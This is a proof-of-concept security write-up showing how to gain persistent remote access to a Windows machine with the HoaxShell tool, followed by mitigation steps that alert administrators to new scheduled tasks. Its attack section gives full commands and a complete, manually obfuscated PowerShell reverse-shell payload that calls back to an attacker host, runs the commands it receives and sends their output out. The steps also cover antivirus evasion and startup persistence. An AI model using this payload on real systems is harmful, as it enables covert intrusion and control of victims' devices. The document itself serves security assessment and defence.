 # POC 4 - Reverse Shell to Remain on Device

## Description

A reverse shell attack is an attack which allows attacker to open ports within the victim's machine. These opened ports allow the attackers to remotely access the victims organisation's network. 

These reverse shell's may be difficult to detect as threat actors may build more complex scripts to evade both the firewall implemented within the system as well as the antivirus implemented.

This attack aims to outline the threats posed to the organisation from a reverse shell attack. 

## Steps to Carry Out Exploitation

1. Git clone the Hoax Shell repository

```sh
git clone https://github.com/t3l3machus/hoaxshell.git
```

2. Navigate into the repository and install all dependencies

```sh
# Navigate into the repository
cd ./hoaxshell

# Install dependencies
python -m pip install -r requirements.txt
```

3. Run the following shell to generate the Hoaxshell payload

```sh
sudo python3 hoaxshell.py -s <your_ip> -r -H "Authorization"
```

![Generating Payload using HoaxShell](/images/POC_4/Exploitation/POC4_Generating_Payload.png)

4. Manually obfuscating HoaxShell Script by adding `'` and `splitting strings of character`, and `randomising casing of PowerShell functions`

```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

5. Run the following within a PowerShell session or Command Prompt

Command Prompt
```cmd
powershell $xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

PowerShell
```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

6. Notice that the attacker machine would have a shell session established after the command has been ran

![HoaxShell Connection Established](/images/POC_4/Exploitation/POC4_HoaxShell_Session.png)

7. Run the following command on the attacker system to confirm that the attacker machine is connected and able to retrieve information from the organisations device

![Listing of Victim's machine directory from HoaxShell exploit script](/images/POC_4/Exploitation/POC4_Directry_Listing_from_HoaxShell.png)

8. Save the PowerShell script and run it on startup using Task Scheduler

9. Run the following command to grab the session mode when the shell has been closed on the attacker machine but is still running on the organisations device

```sh
sudo python3 hoaxshell.py -s <your_ip> -g
```

## Possible Mitigations and Recommendations

1. [Notify Administrators of New Scheduled Tasks](#notify-administrators-of-new-scheduled-tasks)
2. Disable unused ports and consider using a destination net
3. Configure the firewall to allow only required application's application ID*
4. Update antivirus signature database

**NOTE**
*Only applicable to Layer 7 Firewalls

### Notify Administrators of New Scheduled Tasks

While tasks are being constantly scheduled within systems to perform an update of system, scanning for malicious files, etc., threat actors can make use of scheduled tasks as an advantage to schedule exploits to run on start up or at different times of the day. 

To combat this, one method is to notify the administrators of any new scheduled tasks to allow administrators to further look into and investigate any newly scheduled task which may pose a potential threat towards the organisations active directory. 

#### Steps to Notify Administrators of New Scheduled Tasks

1. Create a PowerShell script like the following modifying the information accordingly

```ps1
# Define the event ID to monitor for task creation
$EventId = 106

# Get the latest event that matches the specified event ID from the Task Scheduler log
$Event = Get-WinEvent -MaxEvents 1 -FilterHashTable @{
    LogName = 'Microsoft-Windows-TaskScheduler/Operational'
    ID = $EventId
} | Select-Object Id, Message, MachineName, ProviderName

# Check if an event is found
if ($Event) {
    # Email configuration
    $EmailFrom = "your-email@example.com"
    $EmailTo = "recipient@example.com"
    $Subject = "Task Created Alert - $($Event.MachineName)"
    $Body = "EventID: $($Event.Id)`nSource: $($Event.ProviderName)`nMachineName: $($Event.MachineName)`nMessage: $($Event.Message)"

    # SMTP Server configuration for a generic mail server
    $SMTPServer = "mail.example.com"
    $SMTPPort = 587
    $SMTPUsername = "your-email@example.com"
    $encrypted = Get-Content c:scriptsencrypted_password.txt | ConvertTo-SecureString
    $credential = New-Object System.Management.Automation.PsCredential($SMTPUsername, $encrypted)

    # Create and configure the SMTP client
    $SMTPClient = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort)
    $SMTPClient.EnableSsl = $true
    $SMTPClient.Credentials = $credential

    # Send the email
    $SMTPClient.Send($EmailFrom, $EmailTo, $Subject, $Body)

    Write-Host "Email sent successfully."
} else {
    Write-Host "No matching event found."
}
```

2. Test that the email is able to be sent by running the PowerShell Script

3. Open `Event Viewer` and navigate to the following path `Applications and Services > Microsoft > Windows > Task Scheduler > Operational`

![Event Viewer Task Scheduler Operational Tab](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Scheduler_Operational_Tab.png)

4. Filter the current log to show all logs with an `Event ID` of `106`

![Filtering Event Log with Event ID 106](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filter_By_Event_ID.png)

![Filtered Event Log](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filtered_Log.png)

5. Right Click the Task and `Attach Task To This Event`

![Right Click Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Options.png)

6. Create the task with the following details

**General Tab**
|Options|Value|
|--|--|
|Name|NewScriptAlert|
|Description|Alert Administrators of any new scripts created|

![Creating Basic Task](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Creating_Basic_Task.png)

**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|<Path/To/File>|

![Task Scheduler Actions Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Actions.png)

7. Verify that the settings are configured as per follows

![Task Scheduler Summary](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Summary.png)

8. Check the `Open Properties dialog for the task when I click Finish` option

9. Further modify the following from the properties dialog

**General Tab**

![Task Scheduler General](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_General.png)

**Conditions Tab**

![Task Scheduler Conditions](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Conditions.png)

**Settings Tab**

![Task Scheduler Settings](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Settings.png)

**Account Login Prompt**

![Task Scheduler Account Login](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Account_Login.png)

10. Trigger the task and check that an email notification is triggered

## References

[Hoax Shell](https://github.com/t3l3machus/hoaxshell)  
[What is Reverse Shell](https://www.imperva.com/learn/application-security/reverse-shell/)  
[Manually Obfuscating Hoax Shell Payload](https://www.youtube.com/watch?v=iElVfagdCD4)  
